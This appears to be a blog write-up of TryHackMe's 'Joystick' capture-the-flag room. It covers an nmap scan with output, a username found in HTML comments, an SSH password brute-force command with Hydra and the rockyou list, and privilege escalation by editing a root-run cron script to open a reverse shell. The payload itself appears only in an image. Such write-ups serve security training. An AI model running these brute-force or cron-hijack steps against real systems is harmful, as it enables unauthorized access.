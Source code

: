 ```yaml
---
layout: post
title: "Joystick - TryHackMe"
comments: true
description: "Writeup for TryHackMe's Joystick"
tags: "TryHackMe CTF Linux Writeups"
---
```

## Happy Hacking!
![alt text](https://tryhackme-images.s3.amazonaws.com/room-icons/a1f2af5e550f182a1efc6c7f0f3ff6b4.png)

## Medium CTF room in [TryHackme](https://tryhackme.com/room/joystick)
# Reconnaissance
  - Nmap Scan
    `nmap -A -T5 -oN nmap.txt -vv <ip>`
    ```bash
    # Nmap 7.80 scan initiated Fri Jun 12 16:58:01 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.50.224
    Warning: 10.10.50.224 giving up on port because retransmission cap hit (2).
    Nmap scan report for 10.10.50.224
    Host is up, received conn-refused (0.25s latency).
    Scanned at 2020-06-12 16:58:02 +08 for 90s
    Not shown: 728 closed ports, 269 filtered ports
    Reason: 728 conn-refused and 269 no-responses
    PORT   STATE SERVICE REASON  VERSION
    21/tcp open  ftp     syn-ack vsftpd 3.0.3
    |_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
    22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDviekIGKBudV6eCKiRkvoK3+KbLYFlqNUkOi/nphorAqF22v/wOzvbr9hcn7/S6STJeYDHVpsKl2Ku5COzQs7zbWkv/jH9LX6R0s5pICbohVvCDjeEvdaMks9yU1/5AYj25RPi1SMLq3boEKuJiu1J+i+ADVTcE4PxvPT6rDOvh9TwVYzWuuezz8nrejAhJGvamsaaJzstZQkn+I7cY2TAeRoRJqnOmLffmNQfG2T4hDm7pg8x7nSHIStlGl3i+SZepokyPm4+rW9tKiJ9bPa9CoW7i/uT7gBFJYGNFPK8i5Rh7KIphWE7W8iMZjNE7ujTSUHnWchGyBmFihEuz777
    |   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAFywRYgcs+ORO0qsevRGXL7QGqLeUlNAYjDTWs7FG9hQYYA50Znen7XGzSPIY6gt57HUYp2bWD12rKLw4rcnQw=
    |   256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOVUvn4lBmcT/u4LxGHkddF39Y3bAnk8CmiVa2DGKFWU
    80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: POST OPTIONS GET HEAD
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: JoyStick Gaming
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Jun 12 16:59:32 2020 -- 1 IP address (1 host up) scanned in 91.03 seconds

    ```
# Website Enum
We can directly see a hint inside the source code.
- Source code
    ```html
        <!DOCTYPE html>
    <html lang="en" dir="ltr">
      <head>
        <meta charset="utf-8">
        <title>JoyStick Gaming</title>
      </head>
      <body>
        <p>JoyStick gaming minecraft server, open shortly to the public!</p>
        <!-- Zach, I don't care that you named your user steve. You still need to
          finish making the website -->
        <!-- Great, and now the FTP server just doesn't work. Just another great idea after
    	your failed irc chat. Why would we use that when we have in game chat? 
    	Not to mention that I know you still haven't reset your password.  -->
      </body>
    </html> 

    ```

From this we have a potential user "steve"

# User Access
To get user access we can symply brute-force the ssh login with user 'steve' and use rockyou password list
- Brute-Forcing
    Here i am going to use Hydra 
    `hydra -l steve -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt <ip> ssh`
    ```bash
    [22][ssh] host: 10.10.50.224   login: steve   password: ********
    ```
    You will find the password of user steve and get user flag easily.

# Privilege Escalation

Actually to get the root.txt in this machine, we don't really need to escalate our privilege. It is because the root.txt is stored in other user's home directory.
yet we are still going to do it for the fun of it.

- Cronjob
on the crontab we can see that /opt/minecraft/backup.sh is executed as root
we can edit the file to return a reverse shell to us.

Sorry for no Screenshot of the crontab, it is just my machine was so slow.

here is the edited backup.sh and the shell we get
![alt text](https://i.imgur.com/ejkruLo.png)

So, thats all, yea thx hhh,,